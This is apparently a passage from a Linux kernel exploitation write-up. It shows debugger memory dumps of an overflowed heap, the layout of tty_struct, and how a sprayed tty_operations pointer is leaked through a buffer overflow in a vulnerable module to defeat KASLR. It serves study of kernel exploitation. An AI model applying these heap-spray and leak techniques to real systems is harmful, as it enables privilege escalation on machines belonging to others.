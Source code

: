 ~~~
0xffff888002fcb000:     0x4141414141414141      0x4141414141414141
0xffff888002fcb010:     0x4141414141414141      0x4141414141414141
pwndbg> x/4xg 0xffff888002fcac00 + 0x400*2
0xffff888002fcb400:     0x0000000100005401      0x0000000000000000
0xffff888002fcb410:     0xffff88800265bf00      0xffffffff81c38760
pwndbg> x/4xg 0xffff888002fcac00 + 0x4FB
0xffff888002fcb0fb:     0xfcb0f84141414141      0x000000ffff888002
0xffff888002fcb10b:     0x0000bf0000000000      0x1c03000000000000
pwndbg> x/4xg 0xffff888002fcac00 + 0x4FE
0xffff888002fcb0fe:     0x888002fcb0f84141      0x000000000000ffff
0xffff888002fcb10e:     0x0000000000bf0000      0x04157f1c03000000
~~~

# Bypassing KASLR

## struct tty_struct


`tty_operations` pointer at offset 0x18:

~~~
[cpey@nuc linux]$ pahole -E --hex -C tty_struct vmlinux
struct tty_struct {
        int                        magic;                                                /*     0   0x4 */
        struct kref {
                /* typedef refcount_t */ struct refcount_struct {
                        /* typedef atomic_t */ struct {
                                int counter;                                             /*   0x4   0x4 */
                        } refs; /*   0x4   0x4 */
                } refcount; /*   0x4   0x4 */
        }kref; /*   0x4   0x4 */
        struct device *            dev;                                                  /*   0x8   0x8 */
        struct tty_driver *        driver;                                               /*  0x10   0x8 */
        const struct tty_operations  * ops;                                              /*  0x18   0x8 */
...
~~~

Is found in the heap memory sprayed with `tty_struct`:

~~~
pwndbg> x/4xg 0xffff888002fcac00 + 0x400
0xffff888002fcb000:     0x0000000100005401      0x0000000000000000
0xffff888002fcb010:     0xffff88800265be40      0xffffffff81c38880
~~~

Offset of `tty_operations` pointer: 0xffffffff81c38880 - 0xffffffff81000000 = 0xc38880

This pointer can be read by the buffer overflow in `module_read`:
